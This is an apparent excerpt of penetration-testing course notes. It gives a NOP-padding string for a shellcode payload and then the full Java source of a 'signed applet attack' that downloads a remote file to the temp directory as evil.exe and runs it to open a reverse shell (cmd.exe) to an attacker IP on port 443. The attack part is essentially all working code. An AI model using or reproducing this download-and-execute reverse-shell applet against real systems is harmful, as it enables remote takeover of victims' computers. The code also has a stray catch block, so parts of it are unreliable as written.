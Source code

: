 Since the payload is 18 bytes smaller, pad it with 18 NOPs: `%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090`

## Java Signed Applet Attack

Java.java
```java
import java.applet.*;
import java.awt.*;
import java.io.*;
import java.net.URL;
import java.util.*;

/**
 * Author: Offensive Security
 * This Java applet will download a file and execute it.
 **/

public class Java extends Applet {
    private Object initialized = null;
    public Object isInitialized()
    {
        return initialized;
    }
    public void init() {
        Process f;
        try {
            String tmpdir = System.getProperty("java.io.tmpdir") + File.separator;
            String expath = tmpdir + "evil.exe";
            String download = "";
            download = getParameter("1");
            if (download.length() > 0) {
                // URL parameter
                URL url = new URL(download);
                // Get an input stream for reading
                InputStream in = url.openStream();
                // Create a buffered input stream for efficency
                BufferedInputStream bufIn = new BufferedInputStream(in);
                File outputFile = new File(expath);
                OutputStream out = new BufferedOutputStream(new
                        FileOutputStream(outputFile));
                byte[] buffer = new byte[2048];
                for (;;) {
                    int nBytes = bufIn.read(buffer);
                    if (nBytes <= 0) break;
                    out.write(buffer, 0, nBytes);
                }
                out.flush();
                out.close();
                in.close();
                f = Runtime.getRuntime().exec("cmd.exe /c " + expath + " 192.168.1.23 443 -e cmd.exe"); // change to Kali IP
            }
        } catch(IOException e) {
            e.printStackTrace();
        }
        /* ended here and commented out below for bypass */
        catch (Exception exception)
        {
            exception.printStackTrace();
        }
    }
}
```